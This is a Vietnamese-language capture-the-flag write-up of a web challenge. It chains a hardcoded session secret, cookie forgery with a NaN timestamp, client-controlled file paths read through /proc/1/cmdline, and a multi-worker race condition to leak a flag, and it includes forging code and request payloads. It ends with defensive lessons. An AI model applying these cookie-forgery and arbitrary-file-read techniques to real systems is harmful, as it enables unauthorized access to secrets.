




# egg — B01lers CTF 2026 (Web)

> Source đề: [`./challenge/`](./challenge) · Exploit: [`./solve.py`](./solve.py)

## Tóm tắt ý tưởng

1. **Cookie giả** (forge cookie) - biết được mật khẩu server dùng để ký cookie, mình tự ký được cookie hợp lệ.
2. **NaN bypass** - nhét giá trị "NaN" (Not-a-Number) vào timestamp. Hai tính chất kỳ lạ của NaN làm sập 2 dòng code cùng lúc.
3. **Race condition** - bắn nhiều request cùng lúc, server có 4 worker chạy song song nên chèn được "đường dẫn file lạ" vào trứng người khác.

Cuối cùng server tự đọc `/proc/1/cmdline` (file ảo Linux chứa argv của process số 1) - flag được truyền vào server qua argv, nên mình đọc được.

## 1. Mô tả challenge

- Web app **"Egg Hatcher Arena"**: login bằng username, dashboard có 8 ô trứng, hai nút **Get Egg** và **Hatch Egg**.
- Có link remote (reset 15 phút), kèm full source code (`src/main.py`, `src/hatchery.py`, `src/db.py`).
- Mục tiêu: lấy flag dạng `bctf{...}`.





## 2. Khám phá web

Bắt gói bằng Burp / DevTools, xác định ba endpoint quan trọng:

| Endpoint | Method | Body | Tác dụng |
|---|---|---|---|
| `/login` | POST | `username=...` (form) | Tạo player mới, set cookie `session` |
| `/eggs` | POST | `{"name": "..."}` (JSON) | Tạo trứng |
| `/eggs/<egg_id>/hatch` | POST | `{"art_index": <int>}` | Nở trứng, trả ASCII art |

Giao diện ngoài không lộ gì bất thường - phải đọc source.

## 3. Đọc source

### 3.1. Lỗ hổng 1 - Hardcode session secret

Trong `src/main.py`:

```python
SESSION_SECRET = "6767676767676767"
app.add_middleware(SessionMiddleware, secret_key=SESSION_SECRET, same_site="lax")
```

Starlette dùng `itsdangerous.TimestampSigner` ký cookie session bằng secret này. Secret bị hardcode trong source public, nghĩa là ai cũng tự ký cookie hợp lệ được. Muốn ép tham số bên trong cookie (như `session_timestamp`) thì cứ ký giùm server là được.

Cookie bị ký là để server tin nội dung chưa bị sửa: server gửi `payload.signature`, khách gửi lại, server check `signature == HMAC(secret, payload)`. Khớp thì server tin payload. Biết secret thì lớp này coi như xong.

### 3.2. Lỗ hổng 2 - Hàm `merge()` cho client ghi đè mặc định

Trong handler `/eggs`:

```python
data = merge(
    { "filename": HATCHERY_FILENAME, },    # mặc định "asciiart"
    await request.json(),                  # body từ client
)
```

`merge` là hàm tự viết, gộp 2 dict, **client thắng**:

```python
def merge(dst: dict, src: dict) -> dict:
    for key, value in src.items():
        ...
        dst[key] = value          # bất kỳ key nào client gửi đều ghi đè
    return dst
```

Frontend chỉ gửi `name`, nhưng mình thêm `filename` vào body thì server không check gì hết. Body `{"name": "x", "filename": "/proc/1/cmdline"}` --> `data["filename"]` thành `"/proc/1/cmdline"`.

### 3.3. Lỗ hổng 3 - `filename` bị nhúng thẳng vào source Python

`src/hatchery.py`:

```python
EGG_TEMPLATE = """
class Creature:
    def gen_ascii_art(self, offset: int) -> None:
        f = open("{filename}", "r")
        f.seek(offset)
        self.art = f.read(40)
"""
```

Khi tạo egg, server `format()` template với filename do client gửi, ghi ra `creature.py`, zip lại thành `.egg`. Lúc hatch thì `import creature` --> `gen_ascii_art()` chạy --> mở đúng filename đó, đọc 40 byte.

Tức là client kiểm soát path --> đọc file tuỳ ý 40 byte một lần. Bài có 2 art_index (0 và 1), mỗi lần `seek(art_index * 44)` rồi `read(40)`, nên có thể chia flag thành 2 chunk để đọc.

### 3.4. Lỗ hổng 4 - Validation `filename` quá lỏng + check `time_diff` lủng

Validation:

```python
def is_valid_file(s: str) -> bool:
    return all(c.isascii() and c.isalnum() or c == "/" for c in s)
```

Cho phép chữ + số + `/`. Cấm `.`, `_`, `-`. Nên `../etc/passwd` không qua (có `.`), nhưng `/proc/1/cmdline` thì hợp lệ.

`Egg.__init__` chứa hai check tưởng chừng chặt:

```python
time_diff = time.time() - player_creation_time
if time_diff <= 0:
    return                # bỏ qua, không gán self.id

self.id = sha256(str(time_diff * random.random()).encode()).hexdigest()
```

Hai thứ phải vượt qua đồng thời:

- `time_diff > 0`: nghĩa là `player_creation_time` phải nhỏ hơn `time.time()` hiện tại.
- `egg_id` phụ thuộc `random.random()` --> mỗi lần tạo trứng ID khác nhau, không đoán trước được.

`player_creation_time` lấy từ session cookie (key `session_timestamp`). Mình kiểm soát cookie nên kiểm soát luôn giá trị này.

**Trick NaN:** trong IEEE 754, `NaN` có hai tính chất cần chú ý:

1. Mọi so sánh với NaN đều trả `False`. `NaN <= 0 --> False`. Check `if time_diff <= 0: return` không trigger, code chạy tiếp.
2. Mọi phép toán với NaN ra NaN. `NaN * random.random() == NaN`. `str(NaN) == 'nan'`. Vậy:

```python
self.id = sha256(b'nan').hexdigest()
       = '9b2d5b4678781e53038e91ea5324530a03f27dc1d0e5f6c9bc9d493a23be9de0'
```

ID thành hằng số, ai chơi cũng ra cùng giá trị. Trứng dùng `id` này đặt tên file trên đĩa, nghĩa là 2 người tạo trứng cùng lúc sẽ ghi đè vào **cùng 1 file**.

Cách khác: dùng `float('-inf')` thay NaN cũng được. `time.time() - (-inf) = +inf`, `inf <= 0 = False`, `inf * random() = inf`, `str(inf) = 'inf'` --> ID cố định khác. Mình thử cả 2 đều ăn, viết writeup này theo đường NaN cho gọn.

Verify nhanh trong REPL:

```python
>>> import random, hashlib
>>> nan = float('nan')
>>> for _ in range(5):
...     v = nan * random.random()
...     print(str(v), hashlib.sha256(str(v).encode()).hexdigest()[:16])
nan 9b2d5b4678781e53
nan 9b2d5b4678781e53
nan 9b2d5b4678781e53
nan 9b2d5b4678781e53
nan 9b2d5b4678781e53
```

### 3.5. Flag nằm ở đâu

Cuối `main.py`:

```python
if __name__ == "__main__":
    db.init_db()
    FLAG = sys.argv[1]
    uvicorn.run("main:app", host="0.0.0.0", port=8000, reload=False, workers=4)
```

--> Flag được truyền qua dòng lệnh: `python3 main.py 'bctf{...}'`. Trên Linux mọi process đều có `/proc/<PID>/cmdline` chứa argv. Trong Docker, PID=1 là process chạy server, nên đường dẫn cần đọc là `/proc/1/cmdline`.

## 4. Vì sao lại cần race condition

Tới đây mình nghĩ xong rồi:

- Forge cookie với NaN --> bypass check --> egg_id cố định
- Truyền filename = `/proc/1/cmdline` --> đọc file

Nhưng lúc làm bài thật: tạo egg xong, hatch toàn trả `Failed: That egg already hatched.` hoặc art rỗng. Lý do nằm ở cơ chế tạo trứng - mỗi trứng lưu DB với ownership của 1 player. Với cùng `egg_id = sha256('nan')`, người ghi DB sau sẽ thắng (do `INSERT OR REPLACE`), nhưng `shutil.rmtree(dir_path)` chỉ thành công ở process đầu tiên, các process sau rmtree throw `FileNotFoundError` --> không gọi tới `db.add_egg`.

Hệ quả: nội dung file zip cuối cùng và DB ownership có thể của 2 player khác nhau. Lợi dụng cái này:

1. Login 2 account A và B --> có 2 player_id thật.
2. Bắn 8 request song song (4 cặp A-B):
   - A: filename = `asciiart` (mồi)
   - B: filename = `/proc/1/cmdline` (payload)
   - lặp lại 4 lần
3. Một worker thắng race file (zip dính nội dung từ B do ghi đè creature.py), một worker thắng race DB (vào DB trước thì giữ ownership) - nhưng zip thì đã chứa payload của B rồi.
4. Hatch bằng cả 2 cookie, một trong hai sẽ là chủ trứng và đọc được file.

Giải thích timeline:

```
t0: A & B đều mkdir incubator/<NaN_id>/    (exist_ok=True --> không lỗi)
t1: A: write creature.py với filename = asciiart
t2: B: ghi đè creature.py với filename = /proc/1/cmdline   <-- payload đã in lên đĩa
t3: A: zip dir --> <NaN_id>.egg                              <-- zip đã chứa payload!
t4: A: rmtree dir   <-- thắng, được db.add_egg ghi nhận
t5: B: rmtree --> FileNotFoundError --> KHÔNG add DB
t6: hatch (cookie A): import creature.py từ zip --> đọc /proc/1/cmdline --> leak
```

## 5. Forge cookie - chi tiết kỹ thuật

Cookie Starlette có dạng `<payload_b64>.<timestamp>.<signature>`. Mình tạo:

```python
import base64, json, time
from itsdangerous import TimestampSigner

SECRET = "6767676767676767"

def forge_cookie(player_id: str) -> str:
    class FixedTS(TimestampSigner):
        def get_timestamp(self):
            return int(time.time())
    signer = FixedTS(SECRET)
    payload = base64.b64encode(json.dumps({
        "player_id": player_id,
        "session_timestamp": float('nan')
    }).encode())
    return "session=" + signer.sign(payload).decode()
```

`json.dumps` của Python xuất ra `NaN` (không quote) - không đúng RFC 8259 nhưng `json.loads` của Python parse lại được, Starlette ăn ngon.

`player_id` phải có thật trong DB --> đăng nhập bình thường để lấy player_id, rồi forge cookie với cùng player_id và `session_timestamp = NaN`.

## 6. Exploit hoàn chỉnh

Code đầy đủ ở [`./solve.py`](./solve.py). Chạy:

```bash
pip install itsdangerous
python3 solve.py --base http://CHALL_HOST:8000
```

## 7. Chạy local

Mình dựng lại challenge ở local (cùng source code, cùng port 8000) rồi chạy exploit.



Sau khi exploit xong, mở dashboard bằng cookie B sẽ thấy flag in trong khung "Latest Hatch":



> Trong sandbox local PID 1 là `bwrap`, nên trong demo này mình dùng `/proc/<master>/cmdline` (PID của process Python). Trên Docker remote, master process đúng là PID 1 nên path chuẩn là `/proc/1/cmdline`. Cơ chế khai thác y hệt.

## 8. Flag

```text
bctf{you_w1n!1}
```

> flag local demo là `bctf{n4n_l0c4l_d3m0}`

## 9. Tổng kết lỗ hổng

| | Lỗ hổng | Chi tiết |
|---|---|---|
| 1 | Hardcode session secret | `SESSION_SECRET = "6767676767676767"` |
| 2 | `merge()` cho user override | client gửi key tuỳ ý --> ghi đè default |
| 3 | filename nhúng vào Python template | đọc file tuỳ ý qua `open(filename).read(40)` |
| 4 | NaN bypass + cố định egg_id | `NaN <= 0 = False`, `NaN * random = NaN` |
| 5 | Race condition filesystem | 4 worker cùng ghi 1 file --> mixed content |
| 6 | Flag truyền qua argv | `sys.argv[1]` --> đọc được qua `/proc/1/cmdline` |

## 10. Bài học rút ra

- Không hardcode secret trong source public.
- Merge dict từ client thì phải whitelist key cho phép, không thì ghi đè tuốt.
- Filename phải whitelist tên cụ thể, không xài character class kiểu cho mọi chữ + số + `/`.
- So sánh số thì cẩn thận edge case `NaN`, `inf`. Viết `if not (time_diff > 0): return` an toàn hơn `if time_diff <= 0: return`.
- Không nhét secret vào argv. Ai vào container cũng đọc `/proc/<pid>/cmdline` được. Dùng env var hoặc đọc từ file.
- Race condition không chỉ ở shared memory - filesystem cũng race khi nhiều worker cùng ghi 1 path.
